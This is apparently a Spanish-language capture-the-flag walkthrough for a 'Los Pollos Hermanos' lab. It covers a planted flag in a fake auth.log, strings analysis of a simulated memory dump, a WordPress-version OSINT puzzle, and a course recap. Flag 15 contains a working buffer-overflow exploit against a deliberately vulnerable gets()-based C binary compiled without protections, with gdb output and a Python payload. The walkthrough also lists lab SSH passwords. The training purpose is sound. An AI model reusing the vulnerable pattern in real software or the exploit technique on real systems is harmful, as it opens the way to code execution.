El archivo auth.log en sistemas Linux es un registro de eventos relacionados con la autenticación y autorización, como inicios de sesión, cambios de contraseña, y uso de sudo. En Debian y Ubuntu, se encuentra en /var/log/auth.log, mientras que en entornos Red Hat y Fedora se encuentra en /var/log/secure. Este archivo es crucial para la seguridad y la auditorÃa, permitiendo rastrear quién accede al sistema y cómo accede.
📂 Estructura del entorno
El archivo auth.log como copia falsa, ubicada fuera de /var/log:
/home/mike/logs/auth.log
Se ha llenado con eventos simulados:
Inicio de sesión SSH válidos e inválidos
Uso de sudo y CRON
Conexiones desde múltiples IPs
Algunas entradas realistas con texto y timestamps válidos
Una lÃnea personalizada que contiene la bandera:
Jul 30 12:13:10 lospollos sshd[2519]: Accepted password for mike from 10.13.37.99 port 55322 ssh2 - bandera13: 'Un_hombre_debe_tener_limites'
🧪 Pasos para capturar la bandera
1️⃣ Acceder como usuario chow
Conexión SSH usando la cuenta de chow
Ejecuta el cliente SSH:
ssh chow@192.168.1.44
Cuando te pida la contraseña, introduce
Ch0w$up1
2️⃣ Leer el archivo completo
Desplazarse al usuario mike. Dentro del usuario tenemos dos directorios: Lavanderia y Logs:
El directorio LavanderÃa era donde encontramos la bandera 4. Vamos a ver a hora el de logs:
Hay un archivo llamado auth.log
📑 ¿Qué es auth.log?
El archivo auth.log es un log de
autenticación en sistemas Linux.
Sirve para registrar todo lo relacionado con inicios de sesión,
uso de sudo, acceso por SSH, PAM (Pluggable Authentication Modules),
etc.
En él puedes encontrar:
Intentos de login exitosos y fallidos.
Accesos por SSH (usuario, IP origen, puerto).
Uso de sudo y si fue autorizado o denegado.
Mensajes relacionados con PAM (ej: bloqueo de usuarios).
Eventos de seguridad que pueden indicar ataques de fuerza bruta.
📂 ¿Dónde suele estar ubicado?
En distribuciones basadas en Debian/Ubuntu:
/var/log/auth.log
En distribuciones basadas en Red Hat / CentOS / Fedora:
/var/log/secure
🔠Ejemplos de uso
Ver últimos accesos fallidos por SSH:
grep "Failed password" /var/log/auth.log
Ver inicios de sesión exitosos:
grep "Accepted password" /var/log/auth.log
Ver comandos sudo ejecutados:
grep "sudo" /var/log/auth.log
Es por esto que este archivo resulta extraño que se encuentre en esta ubicación: /home/Mike/logs/auth.log
Vamos a analizarlo…
Desde terminal:
cat auth.log
Nos devuelve mucho contenido para encontrar la bandera
Hacemos un filtrado efectivo para dejar solo las lÃneas con "Accepted password:
grep "Accepted password" auth.log
Esto devuelve varias lÃneas, pero una de ellas se verá diferente:
Jul 30 12:13:10 lospollos sshd[2519]: Accepted password for mike from 10.13.37.99 port 55322 ssh2 - bandera13: 'Un_hombre_debe_tener_limites'
✅ Esa es la clave.
3️⃣ Extraer la bandera
Cópiala tal cual del final de la lÃnea:
Un_hombre_debe_tener_limites
🧠Razonamiento técnico
El reto enseña a distinguir ruido legÃtimo de modificaciones manuales en registros de sistema.
Refuerza el uso de filtros como grep o expresiones regulares.
Simula un escenario tÃpico en auditorÃas digitales, donde se ocultan pistas en logs falsificados.
🔧 Recomendaciones para jugadores avanzados
| Herramienta | Propósito |
|---|---|
| grep / less | Filtrar y visualizar contenido |
| awk / sed | Extracción programática de campos |
| file / stat | Verificar autenticidad del archivo |
| md5sum | Comprobar si el archivo fue alterado |
ğŸ Resultado final
Bandera 13 atrapada: 'Un_hombre_debe_tener_limites'
ğŸ Bandera 14 – Análisis Forense de Volcado de Memoria RAM
CategorÃa: Forense / Memoria / Strings
Analysis
Nivel: Intermedio
Flag: Alejate_de_mi_territorio
Usuario involucrado: saul
📠Ruta del archivo clave: /home/saul/evidencias/mem.raw
🯠Objetivo del reto
El jugador debe analizar un archivo binario que simula un volcado de memoria RAM (mem.raw) y encontrar una cadena de texto legible embebida en medio de datos aleatorios. La bandera fue insertada como texto plano, por lo que basta con saber dónde buscar.
Un archivo de memoria RAM, comúnmente llamado mem.raw, es un volcado (dump) del contenido de la memoria volátil (RAM) de un sistema en un momento especÃfico. Este archivo es una copia bit a bit de todo lo que estaba almacenado en la memoria RAM en el momento de la captura.
¿Qué contiene un archivo mem.raw?
La RAM contiene datos temporales que el sistema operativo, las aplicaciones y los procesos utilizan mientras están en ejecución. Por lo tanto, un archivo mem.raw puede incluir:
Procesos en ejecución
Contraseñas en texto plano
Claves de cifrado
Contenido de sesiones de usuario
Fragmentos de archivos abiertos
LibrerÃas y código ejecutable cargado en memoria
Actividad de red (buffers, sockets, etc.)
¿Para qué se usa un archivo mem.raw?
Análisis forense digital
Es común en investigaciones de incidentes de seguridad, para encontrar evidencia que no se almacena en disco (como malware en memoria).
Análisis de malware
Permite estudiar el comportamiento de software malicioso que se carga sólo en memoria (fileless malware).
Depuración y desarrollo
Ayuda a desarrolladores y administradores a entender errores del sistema o comportamiento inesperado.
Recuperación de datos
A veces se pueden recuperar datos que no se han guardado en disco pero siguen en memoria.
¿Cómo se genera un archivo mem.raw?
Se puede generar usando herramientas especializadas en adquisición de memoria. Algunos ejemplos:
Linux: LiME, avml
Windows: FTK Imager, WinPMEM, Belkasoft RAM Capturer
Mac: OSXPmem (aunque más limitado)
¿Cómo se analiza?
Herramientas comunes de análisis de memoria:
Volatility Framework (Python): analiza estructuras de memoria como procesos, conexiones de red, módulos, etc.
Rekall: similar a Volatility, también para análisis forense.
⚙️ Entorno técnico preparado
Archivo mem.raw:
El archivo mem.raw pesa aproximadamente 10MB.
Contiene datos aleatorios antes y después de la bandera.
La bandera fue escrita directamente como string legible dentro del archivo:
Bandera 14: 'Alejate_de_mi_territorio'
🧪 Pasos para capturar la bandera
1️⃣ Acceder como el usuario saul
ssh saul@192.168.1.44
Contraseña:
123456
Y listamos el contenido:
Nos dirigimos al directorio evidencias y listamos el contenido:
cd evidencias
ls -l
Tenemos un archivo de volcado de memoria llamado mem.raw
2️⃣ Extraer cadenas de texto
Usa el clásico comando strings, ideal para este tipo de análisis:
strings mem.raw | grep -i bandera
el resultado que obtenemos no nos filtra nuestro objetivo.
Probamos con:
strings mem.raw | grep -o "Bandera"
En este caso encuentra la palabra Bandera pero no muestra el resto… Seguimos probando.
strings mem.raw | grep -o "Bandera.*"
Con este comando obtenemos mucha salida, y si bien es cierto que podemos buscar la palabra Bandera en la terminal, no es la mejor opción.
Mejor opción: limitar la regex en grep
Por ejemplo, si queremos que muestre "Bandera" y 30 caracteres después:
strings mem.raw | grep -o -P "Bandera.{0,30}"
-P → activa regex estilo Perl (permite {} de repetición).
.{0,30} → significa: cualquier caracter, entre 0 y 30 repeticiones.
👉 Resultado: muestra "Bandera ..." hasta 30 caracteres después.
Salida esperada:
Bandera 14: 'Alejate_de_mi_territorio'
✅ ¡Flag atrapada entre los bits!
3️⃣ Alternativas para jugadores avanzados
Visualización hexadecimal:
hexedit mem.raw o también: xxd mem.raw | less
Usar herramientas forenses:
binwalk para buscar firmas
volatility (si estuviese habilitado el perfil de memoria)
foremost para reconstrucción de estructuras
âš ï¸ No necesitas técnicas de recuperación avanzada en este reto; la bandera está incrustada como texto plano.
🧠Razonamiento técnico
Este reto enseña cómo se puede ocultar información en memoria fácilmente.
Refuerza el uso de herramientas simples pero poderosas como strings y grep.
Introduce al jugador en técnicas de análisis de binarios sin necesidad de ingenierÃa inversa profunda.
ğŸ Resultado final
Bandera 14 atrapada:
'Alejate_de_mi_territorio'
ğŸ Bandera 15 – Buffer Overflow para Ejecución de Función Secreta
CategorÃa: Pwn / Binary Exploitation
Nivel: Avanzado
Flag: Yo_soy_el_que_llama
Binario vulnerable: /opt/retos/bof15/bof_flag15
📄 Fuente original compilada desde: /opt/retos/bof15/bof_flag15.c
🯠Objetivo del reto
El jugador debe explotar una vulnerabilidad de desbordamiento de búfer en el binario bof_flag15 para sobrescribir el flujo de ejecución y forzar la llamada a una función oculta (bandera()), que imprimirá la flag.
Una vulnerabilidad de Buffer Overflow (desbordamiento de búfer) en un binario ELF de 32 bits es una falla de programación que permite a un atacante escribir más datos de los que un búfer puede manejar, sobrescribiendo otras partes de la memoria, con el fin de alterar el flujo de ejecución del programa y ejecutar código malicioso.
🔧 ¿Qué es un binario ELF de 32 bits?
Un ELF (Executable and Linkable Format) es el formato estándar de archivos ejecutables en sistemas Linux/Unix. Un binario ELF de 32 bits es un archivo compilado para arquitecturas de 32 bits, como x86.
🧠¿Qué es un Buffer Overflow?
Un buffer overflow ocurre cuando un programa copia datos en un búfer (una zona de memoria con tamaño fijo) sin verificar si esos datos caben, sobrescribiendo asà memoria adyacente.
Ejemplo tÃpico en C:
void vulnerable() {
char buffer[64];
gets(buffer); // ¡gets no valida el tamaño de entrada!
}
Si el usuario ingresa más de 64 bytes, se sobrescribe la memoria que hay después del búfer, incluyendo:
Variables locales
El puntero de retorno (EIP) en la pila
💣 ¿Qué ocurre en un binario vulnerable?
En un binario ELF de 32 bits (x86), el flujo de ejecución sigue esta estructura:
El programa llama a una función.
Se crea un stack frame.
Se almacena en la pila la dirección de retorno (EIP) a la que el programa debe volver cuando termine la función.
Si el atacante controla lo que se escribe en un búfer y lo desborda, puede sobrescribir esa dirección de retorno.
Resultado: al terminar la función, el programa salta a la dirección que el atacante ha colocado, logrando ejecución de código arbitrario.
📦 ¿Qué puede hacer un atacante?
Shellcode en la pila
Inyectar instrucciones en la misma pila y redirigir el flujo ahà (si la pila es ejecutable).Return-to-libc
Redirigir el flujo a funciones útiles ya presentes en memoria (como system("/bin/sh")), útil si la pila no es ejecutable.ROP (Return Oriented Programming)
Combinar pequeños fragmentos de código ya presentes en el binario para ejecutar acciones complejas.
🧪 ¿Cómo se explota?
Paso a paso de un ataque Buffer Overflow simple:
Encuentra una función vulnerable (gets, strcpy, scanf, etc.).
Determina el offset hasta el EIP (normalmente con herramientas como pattern_create de Metasploit).
Escribe un payload:
[Padding hasta el EIP]
[Nueva dirección de ejecución]
[Opcional: shellcode o parámetros]
Ejecuta el binario con ese input malicioso.
🔠¿Qué contramedidas existen?
Canarios de pila (Stack canaries): valores aleatorios que detectan sobrescritura.
ASLR (Address Space Layout Randomization): aleatoriza direcciones de memoria.
NX / DEP (No-eXecute / Data Execution Prevention): impide que se ejecute código en la pila.
Fortify Source: protecciones del compilador.
Uso de funciones seguras (fgets, strncpy, etc.)
🧰 Herramientas para aprender/explotar Buffer Overflow
gdb, gdb-peda: depuración.
objdump, readelf: análisis estático del binario.
pwndbg, gef: entornos para debug.
pwntools: framework en Python para scripting de exploits.
⚙️ Entorno técnico preparado
Código vulnerable en C:
void bandera() {
printf("Bandera 15: 'Yo_soy_el_que_llama'\n");
}
void vulnerable() {
char buffer[64];
printf("Introduce tu nombre: ");
gets(buffer); // vulnerable
printf("Hola, %s\n", buffer);
}
int main() {
vulnerable();
return 0;
}
Compilado en 32 bits, sin protecciones:
gcc -m32 -fno-stack-protector -z execstack -no-pie -o bof_flag15 bof_flag15.c
Archivo generado ubicado en:
/opt/retos/bof15/bof_flag15
🧪 Pasos para capturar la bandera
Conexión SSH usando la contraseña de chow
Ejecuta el cliente SSH:
ssh chow@192.168.1.44
Cuando te pida la contraseña, introduce
Ch0w$up1
Buscamos en el directorio /opt:
Y en la carpeta retos encontramos un archivo que hace indicar por su nombre que se trata de una vulnerabilidad Buffer Overflow (bof) para la bandera 15
Análisis inicial
El programa es vulnerable por el uso de gets() en un buffer de 64 bytes.
Queremos hacer un buffer overflow para sobrescribir el return address y ejecutar bandera().
El stack tÃpico de la función vulnerable():
buffer[64 bytes]
saved EBP (4 bytes)
return address (4 bytes) <-- aquà debe ir la dirección de bandera()
Confirmar entorno
Comprobamos el binario:
file ./bof_flag15
Salida:
ELF 32-bit LSB executable, Intel 80386, dynamically linked, not stripped
✅ Confirmamos 32 bits y sÃmbolos disponibles (not stripped).
El binario no es PIE, y lo compilamos sin canary
(-fno-stack-protector) y con stack ejecutable (-z execstack).
Depuración con gdb
Iniciamos gdb para inspeccionar la pila y la función bandera():
gdb /opt/retos/bof15/bof_flag15
(gdb) disas bandera
Salida:
0x0804847d <+0>: push %ebp
0x0804847e <+1>: mov %esp,%ebp
0x08048480 <+3>: sub $0x18,%esp
0x08048483 <+6>: movl $0x8048570,(%esp)
0x0804848a <+13>: call 0x8048350 <puts@plt>
0x0804848f <+18>: leave
0x08048490 <+19>: ret
Dirección de bandera() confirmada: 0x0804847d
5. Determinar el offset exacto al EIP
El buffer tenÃa 64 bytes, y tÃpicamente el EIP se sobreescribe
después de 64 + 4 (EBP) = 68 bytes.
Probamos en gdb con un patrón cÃclico, pero por compatibilidad con
Ubuntu 14.04 y gets():
Creamos un patrón de prueba (fuera de gdb):
python3 -c 'import itertools, string; print("".join("".join(x) for x in itertools.product(string.ascii_uppercase, string.ascii_lowercase, string.digits))[:200])' > ~/input.txt
Ya tenemos el archivo input.txt en el directorio de chow
Ejecutamos gdb con entrada desde el fichero:
gdb /opt/retos/bof15/bof_flag15
(gdb) run < ~/input.txt
(gdb) info registers eip
Salida:
eip = 0x63413563
Interpretamos los bytes en little endian y buscamos el offset.
Cada elemento de itertools.product es una tupla de 2 caracteres ((A, a), (A, b), …).
Pero nuestro EIP tiene 4 bytes, asà que probablemente hay un desfase en la conversión.
La forma más simple y confiable ahora es probar offsets
manualmente.
Finalmente, probando manualment (incrementando de 68 en
adelante), encontramos el offset correcto:
OFFSET = 76 bytes
6. Construir el payload final
Interpretamos los bytes en little endian y buscamos el offset.
Finalmente, probando manual (incrementando de 68 en
delante de 4 en cuatro), encontramos el offset correcto en
76:
Con el offset correcto y la dirección de bandera() (0x0804847d) en little endian:
python3 -c 'import sys; sys.stdout.buffer.write(b"A"*76 + b"\x7d\x84\x04\x08")' | /opt/retos/bof15/bof_flag15
b"A"*76 → relleno hasta EIP
b"\x7d\x84\x04\x08" → dirección de bandera()
7. Resultado
Al ejecutar el payload:
Introduce tu nombre: Bandera 15: 'Yo_soy_el_que_llama'
✅ Hemos conseguido ejecutar la función bandera() mediante buffer overflow, obteniendo la bandera.
8. Conclusión
La vulnerabilidad estaba en gets(), sin lÃmite de buffer.
Era un clásico overflow en 32 bits.
Para explotarlo:
Determinamos el offset al EIP
Sobrescribimos el return address con la dirección de bandera()
Ejecutamos el payload con Python y redirección a stdin
🧠Razonamiento técnico
El reto enseña cómo un input controlado por el usuario puede alterar el flujo del programa.
Introduce técnicas reales de explotación sin mitigaciones: return-to-function.
Refuerza el uso de herramientas como gdb, objdump, pattern_create, y checksec.
ğŸ Resultado final
Bandera 15 atrapada: 'Yo_soy_el_que_llama'
ğŸ Bonus Final – OSINT
En la página http://192.168.1.44/cupones.html habrás visto lo siguiente:
Con la firma de Gale Boetticher ya sabemos que el texto es alemán:
"Das Imperium von Los Pollos Hermanos ist riesig, aber Erfolg, wie perfekt gebratenes Hühnchen, erfordert akribische Liebe zum Detail. Fring hat seine Marke erweitert und Franchise-Unternehmen auf der ganzen Welt gegründet, von bescheidenen Standorten bis hin zu Einrichtungen in der Karibik.
Drei seiner Unternehmen haben sich als erfolgreiche Unternehmen erwiesen:
https://los-pollos-hermanos.netlify.app/
https://polloshermanossxm.com/
https://lospolloshermanos.co/
Es gab jedoch einen Versuch, ein bedauerliches Scheitern auf dem riesigen Webmarkt. Ein Geschäft, das nicht einmal 24 Stunden dauerte. Es wurde am selben Tag, dem 16. Dezember 2021, eröffnet und geschlossen.
Neugierige, die es wagen, diese ephemere Operation zu untersuchen, werden nur einen Schatten ihrer Existenz finden, eine einzige Aufzeichnung in den Archiven der Zeitmaschine des Netzwerks.
Wenn Sie den Quellcode von damals analysieren, werden Sie den Beweis dafür finden, warum dieses Geschäft nie in Schwung kam: die Flagge seiner chaotischen Struktur. Ihre Plattform, ein einfaches und unorganisiertes WordPress. Welche Version war es?"
Gale Boetticher
Si lo pasamos por un traductor:
“El imperio de Los Pollos Hermanos es vasto, pero el éxito, como el pollo perfectamente frito, requiere una meticulosa atención al detalle. Fring ha expandido su marca, estableciendo franquicias por todo el mundo, desde humildes locales hasta establecimientos en el Caribe.
Tres de sus negocios han demostrado ser negocios exitosos:
https://lospolloshermanos.co/
Sin embargo, hubo un intento, un fracaso lamentable en el vasto mercado de la web. Un negocio que no duró ni 24 horas. Abrió y cerró el mismo dÃa, el 16 de diciembre de 2021.
Los curiosos que se atrevan a investigar esa efÃmera operación, solo encontrarán una sombra de su existencia, un único registro en los archivos de la máquina del tiempo de la red.
Si analizan el código fuente de ese dÃa, encontrarán la prueba de por qué ese negocio nunca despegó: la bandera de su desordenada estructura. Su plataforma, un simple y desorganizado WordPress. ¿qué versión era?”
Gale Boetticher
Análisis de las URLs
Si buscamos las tres primeras URLs en Google veremos que son páginas web que están activas:
Pero cuando llegamos a la última vemos que la página está a la venta:
Y al entrar nos redirige a: http://ww16.lospolloshermanos.co/?sub1=20250827-0039-22ff-8d64-8d1b2fc308c6
Si buscamos en wayback machine las tres primeras Urls veremos que las páginas tienen varias capturas pero ninguna tiene una creada el 16 de diciembre de 2021
Salvo la última que cuando la buscamos nos salta el siguiente aviso:
Y automáticamente nos redirige a https://lospolloshermanos.co/wp/
donde podemos ver el código fuente de la página en ese momento de la historia:
La versión de WordPress utilizada era “WordPress 5.9”. Bandera capturada
Conclusiones:
1. El sitio web usaba WordPress. Hay varias pruebas irrefutables de ello:
La metaetiqueta <meta name="generator" content="WordPress 5.9"/> lo confirma de manera explÃcita, indicando no solo que era un sitio de WordPress, sino también la versión especÃfica que estaba utilizando.
Las URL de las hojas de estilo y los scripts contienen las carpetas estándar de WordPress, como wp-content/plugins/, wp-includes/, y wp-json/. Estos directorios son exclusivos de las instalaciones de WordPress.
El código hace referencia a archivos especÃficos de WordPress, como xmlrpc.php y wlwmanifest.xml, que se utilizan para la publicación remota y otras funcionalidades.
2. El sitio web de WordPress estaba instalado en un subdirectorio llamado wp. La URL a la que te redirige Wayback Machine (https://lospolloshermanos.co/wp/) es la URL real de la instalación de WordPress, lo que explica por qué la URL principal (https://lospolloshermanos.co) nos lleva a ese subdirectorio. Esta es una configuración común para sitios de WordPress, especialmente cuando hay otros elementos que se ejecutan en el dominio principal.
En resumen, los indicios en el código son inequÃvocos: el sitio
lospolloshermanos.co funcionaba con WordPress y estaba configurado para
cargar desde el subdirectorio /wp/.
🧰 Herramientas Utilizadas
Audacity
Editor y analizador de audio multiplataforma; permite ver espectrogramas y realizar ediciones.binwalk
Herramienta para analizar y extraer archivos embebidos en firmwares o binarios.checksec
Script que muestra qué protecciones de seguridad están habilitadas en binarios (DEP, ASLR, PIE, etc.).Coagula
Generador de sonido que convierte imágenes en espectrogramas audibles (muy usado en esteganografÃa de audio).dirb
Fuerza bruta de directorios y archivos en servidores web para descubrir rutas ocultas.enum4linux
Script para recopilar información de sistemas Windows/Samba usando consultas SMB.exiftool
Analizador y editor de metadatos en archivos multimedia (imágenes, audio, PDF, etc.).file
Comando clásico de Linux para identificar el tipo de archivo según su contenido y cabeceras.gobuster
Herramienta de fuerza bruta rápida para directorios, archivos y subdominios web.grep
Herramienta de búsqueda de texto por patrones (regex) en archivos o salidas de comandos.HxD Hex Editor
Editor hexadecimal para Windows, útil en análisis forense y manipulación de binarios.hydra
Herramienta de fuerza bruta para romper credenciales en múltiples servicios de red.John the Ripper
Cracker de contraseñas que soporta múltiples algoritmos de hash.md5sum
Utilidad de Linux para calcular y verificar sumas de comprobación MD5.nc (netcat)
Herramienta versátil para crear conexiones TCP/UDP, depuración de redes y transferencias.nikto
Escáner de vulnerabilidades web que detecta configuraciones inseguras y archivos expuestos.nmap
Escáner de red para descubrimiento de hosts, puertos y servicios, con potentes scripts NSE.pdftotext
Conversor de PDFs a texto plano, útil en forense y análisis de documentos.rar2john
Herramienta auxiliar de John the Ripper para extraer hashes de archivos RAR y romperlos.rpcclient
Cliente SMB para interactuar con servicios RPC en sistemas Windows (enumeración de usuarios, shares, etc.).searchsploit
Interfaz local a la base de datos Exploit-DB para buscar exploits y PoCs.smbclient
Cliente SMB/CIFS que permite conectarse a recursos compartidos en Windows/Linux.strings
Extrae cadenas legibles de archivos binarios (útil en ingenierÃa inversa y forense).tshark
Versión CLI de Wireshark para captura y análisis de tráfico en red.wfuzz
Herramienta de fuzzing para aplicaciones web, permite descubrir rutas, parámetros y vulnerabilidades.Wireshark
Analizador gráfico de protocolos de red, muy usado en seguridad y análisis forense.
🧰 Herramientas Online Utilizadas
dtmf.netlify.app
Generador de tonos DTMF (teclado telefónico) directamente desde el navegador.hash.online-convert.com
Portal de conversión de hashes online (MD5, SHA1, etc.).https://base64encode.org/es/
Codificador/decodificador Base64 en lÃnea.https://braillecaster.net/
Herramienta para convertir texto a Braille y viceversa.https://brailletranslator.org/es.html
Traductor de texto a Braille y de Braille a texto en español.https://ciphersonline.com/es/cifrado-atbash
Traductor online del cifrado clásico Atbash.https://convertbinary.com/de-binario-a-texto/
Conversor de binario a texto y viceversa.https://convertstring.com/es/EncodeDecode/Base64Decode
Herramienta online para decodificar y codificar en Base64.https://dcode.fr/caesar-cipher
Decodificador/analizador para el cifrado César.https://dcode.fr/cifrado-pigpen
Decodificador/analizador para el cifrado Pigpen (masónico).https://emn178.github.io/online-tools/md5_checksum.html
Generador y verificador de checksums MD5 en lÃnea.https://generator-qr.com/
Generador de códigos QR online.https://hash.online-convert.com/es/generador-md5
Herramienta para generar hash MD5 de cadenas o archivos.https://md5decrypt.net/en/Brainfuck-translator/
Traductor de/para el lenguaje esotérico Brainfuck.https://openl.io/es/translate/braille
Traductor de Braille a texto y texto a Braille.https://photo333.com/text-to-octal-es.php
Conversor de texto a octal (y viceversa) en lÃnea.https://seostudio.tools/es/text-to-octal
Otra herramienta para convertir texto a octal y de octal a texto.onlinesound.net/dtmf-generator
Generador de tonos DTMF en lÃnea (similar a dtmf.netlify.app).online-convert.com
Plataforma general de conversiones de archivos y formatos (multiformato).
ğŸ Resumen Final
Has recorrido un camino completo: no solo resolviste retos, entrenaste mirada técnica, paciencia y criterio. Al terminar “Los Pollos Hermanos”, sabes reconocer patrones, validar hipótesis con datos y moverte con soltura entre criptografÃa, forense, red, web y explotación—con una mentalidad metódica y transferible a otros CTF y auditorÃas.
Aprendizajes clave
Enumeración disciplinada: Escanear, catalogar servicios, versiones y puertos (incluidos no estándar) antes de “tocar†nada.
Análisis de evidencias: Extraer valor de archivos, capturas y metadatos con varias herramientas y corroboraciones cruzadas.
Cadenas de explotación: Convertir hallazgos en accesos iniciales y, luego, en privilegios más altos de forma segura y verificable.
Pensamiento criptográfico: Reconocer cifrados clásicos/variantes, codificaciones y combinaciones multimodales (audio, imagen, texto).
Razonamiento forense: Trabajar con tiempos, memoria, logs y formatos desconocidos sin presuponer—validando con firmas y contextos.
Higiene operativa: Notas claras, pasos reproducibles, verificaciones y lÃmites éticos.
Parte 1: Moscas (criptografÃa, stego, forense, web, OSINT, red)
Mosca 1 (Hex + espectrograma): Aprendiste a detectar pistas en hexdumps y a interpretar espectrogramas para oculto en audio/imágenes; combinación de stego y codificación.
Mosca 2 (Brainfuck + Exiftool): Identificaste un lenguaje esotérico y la extracción de metadatos; reforzaste la idea de “lo visible no es todo”.
Mosca 3 (QR + editor hex): Comprendiste que un QR puede estar alterado a bajo nivel; validar integridad/estructura con edición hex y reconstrucción.
Mosca 4 (Pigpen + SQLi): Tradujiste un cifrado clásico y lo llevaste a un vector web (inyección SQL); conexión entre puzzle y explotación real.
Mosca 5 (Crackeo RAR): Practicaste recuperación de contraseñas y evaluación de polÃticas débiles; ética y lÃmites del crackeo controlado.
Mosca 6 (Imagen térmica + Braille): Interpretaste representaciones no textuales; convertir señales visuales en datos mediante mapas y alfabetos alternativos.
Mosca 7 (Octal + hash): Reconociste codificaciones numéricas y la identificación/verificación de hashes; no confundir codificación con cifrado.
Mosca 8 (Base64 + OSINT): Decodificaste y luego investigaste; aprendiste a enlazar datos mÃnimos con fuentes abiertas para contexto.
Mosca 9 (ROT9 + DTMF): Combinaste un desplazamiento con tonos telefónicos; entrenaste oÃdo técnico y lectura de espectros/sonogramas.
Mosca 10 (Atbash + pcap HTTP): Descifraste y confirmaste en tráfico; reforzaste filtros y reconstrucción de objetos desde capturas.
Parte 2: Banderas (sistemas, red, forense y privilegios)
Bandera 1 (sudoers con chown): Detectaste un abuso de sudoers revisando cuentas/servicios; entendiste por qué chown bajo sudo rompe fronteras de permisos.
Bandera 2 (FTP anónimo): Enumeraste con Nmap y validaste acceso sin credenciales; importancia de polÃticas por defecto seguras.
Bandera 3 (binario SUID): Localizaste SUID con búsquedas de permisos; evaluaste rutas de escalada controlando binarios privilegiados.
Bandera 4 (archivos sin extensión): Clasificaste por firmas mágicas con file/binwalk/trid/xxd; no confiar en extensiones.
Bandera 5 (DNS en pcap): Filtraste consultas (p. ej., dns.qry.name) y extraÃste indicadores; valor del tráfico claro para pivotar.
Bandera 6 (Samba CVE-2017): Relacionaste banners/servicios con CVEs conocidos y exploraste acceso con smbclient; mapping de shares y cuentas (usuario tyrus).
Bandera 7 (SSH débil – saul): Practicaste fuerza bruta responsable contra contraseñas triviales; reforzaste bloqueo de credenciales débiles.
Bandera 8 (TLS en pcap): ExtraÃste y analizaste certificados; comprendiste huellas, validez y pistas de identidad/infraestructura.
Bandera 9 (Netcat 31337): Confirmaste que un escaneo completo revela servicios “escondidos”; nunca asumas el top 1000.
Bandera 10 (LFI PHP): Identificaste patrones de inclusión local y rutas de lectura; validaste impacto con ficheros sensibles.
Bandera 11 (Guion PDF): Navegaste un puzzle posicional dentro de un PDF; lección: el formato también es superficie de juego.
Bandera 12 (Máquina del tiempo): Detectaste timestomping (ctime alterado); importancia de múltiples lÃneas de tiempo (atime/mtime/ctime).
Bandera 13 (auth.log falso): Separaste ruido de señal en logs; búsquedas focalizadas (grep Accepted) y detección de artefactos falsos.
Bandera 14 (RAM – mem.raw): Raspaste memoria con strings y filtros; puertas rápidas a secretos en dumps y cuándo pasar a herramientas más ricas.
Bandera 15 (Buffer Overflow): Instrumentaste con GDB, patrones y dirección de función; bases de explotación segura y control de flujo.
Buenas prácticas y mentalidad técnica
Modelo de trabajo: Enumerar → formular hipótesis → probar con mÃnima intrusión → evidenciar → documentar → revisar.
Triangulación de pistas: Una técnica rara vez basta; combinar metadatos, red y contenido crÃptico acelera hallazgos.
Rigor forense: Conservar originales, trabajar con copias, registrar hashes y tiempos; separar observación de interpretación.
Gestión de contraseñas: PolÃticas robustas, detección de reuse y listas negras; enseñar con ejemplos de fallos reales del reto.
Seguridad defensiva: Cada bandera sugiere un control: deshabilitar anónimo, limitar SUID, endurecer sudoers, validar entrada, segmentar puertos, monitorizar logs.
Reproducibilidad: GuÃas de comandos, filtros y firmas; scripts/one-liners para repetir análisis sin sesgos.
Ética y alcance: Practicar solo en entornos permitidos; convertir lo aprendido en recomendaciones de mejora, no en daño.
Qué te llevas aplicado al “mundo real”
Hardening inmediato: Revisar sudoers, SUID, servicios expuestos, contraseñas y shares Samba; cerrar anónimos y puertos no usados.
Monitoreo útil: Alertas sobre patrones en logs (intentos SSH, cambios de tiempo), certificados anómalos y tráfico DNS/HTTP inusual.
Respuesta a incidentes: Extracción rápida de indicios desde pcap, dumps de memoria y documentos; plan de contención basado en evidencia.
Capacidad de investigación: Reconocer cifrados/codificaciones y rutas de LFI/SQLi; reducir tiempo de detección y de explotación en pruebas controladas.
Siguientes pasos para consolidar
Practicar variaciones: Repite cada mosca con un twist (otro cifrado, otro contenedor, otro filtro en pcap) y documenta diferencias.
Automatizar lo repetible: Crea pequeños scripts para enumeración, búsqueda de SUID, filtros en pcap y extracción de metadatos.
Escribir un postmortem: Qué te bloqueó, cómo lo destrabaste, qué check añadirás a tu rutina; convierte aprendizajes en hábitos.
Simular defensa: Por cada vector que explotaste, define un control de detección y uno de prevención en un entorno de lab.